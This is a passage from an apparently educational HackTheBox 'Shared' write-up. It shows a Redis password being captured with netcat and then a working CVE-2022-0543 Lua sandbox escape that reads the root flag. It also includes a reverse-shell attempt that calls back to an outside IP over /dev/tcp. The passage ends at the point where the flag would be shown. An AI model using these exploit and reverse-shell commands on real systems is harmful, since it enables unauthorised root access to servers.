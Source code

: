 ```bash
kali@kali:~/Desktop/HackTheBox/Shared$ scp -i id_rsa dan_smith@10.10.11.172:/usr/local/bin/redis_connector_dev .


kali@kali:~/Desktop/HackTheBox/Shared$ nc -lvnp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42938
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq

kali@kali:~/Desktop/HackTheBox/Shared$ ./redis_connector_dev

```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/shared/6_1_pass.png" width="90%"/>
</p>


Then we can use the password (we have no user) to get a cli. Once in the CLI I searched for LUA sandbox escape options, finding CVE-2022-0543. I followed [this post](https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/) and could read the flag: 

```bash
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /root/root.txt", "r"); local res = f:read("*a"); f:close(); return res' 0

# Tried the reverse but didnt worked out

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -i &> /dev/tcp/10.10.14.112/5454 0>&1","r"); local res = f:read("*a"); f:close(); return res' 0
```

And we get the root flag:
